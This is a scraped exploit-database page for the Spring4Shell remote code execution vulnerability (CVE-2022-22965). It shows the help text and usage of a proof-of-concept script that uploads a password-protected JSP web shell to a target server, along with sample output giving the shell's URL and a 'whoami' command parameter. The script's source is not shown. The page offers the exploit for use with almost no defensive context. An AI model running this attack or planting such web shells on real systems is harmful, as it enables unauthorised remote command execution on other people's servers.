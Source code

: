 ```yaml
---
title: Exploit for Code Injection in Vmware Spring Framework exploit
url: https://sploitus.com/exploit?id=CAD3F237-9F09-5818-ADE3-DF36E8350D41&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-04
fetch_date: 2025-10-04T02:58:56.790006
---
```


# Exploit for Code Injection in Vmware Spring Framework exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Vmware Spring\_Framework CVE-2022-22965

2023-01-03 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=CAD3F237-9F09-5818-ADE3-DF36E8350D41
# Spring4Shell-CVE-2022-22965-POC

```bash
ghost㉿uchiha:~$ ./exploit.py --help
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url

Spring4Shell RCE Proof of Concept

positional arguments:
  url                   Target URL

options:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        Name of the file to upload (Default tomcatwar.jsp)
  -p PASSWORD, --password PASSWORD
                        Password to protect the shell with (Default: thm)
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file (Default: ROOT)
```

## Usage
```bash
ghost㉿uchiha:~$ ./exploit.py http://url/
Shell Uploaded Successfully!
Your shell can be found at: http://url/tomcatwar.jsp?pwd=evil&cmd=whoami
```

Modified version of https://github.com/BobTheShoplifter/Spring4Shell-POC
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)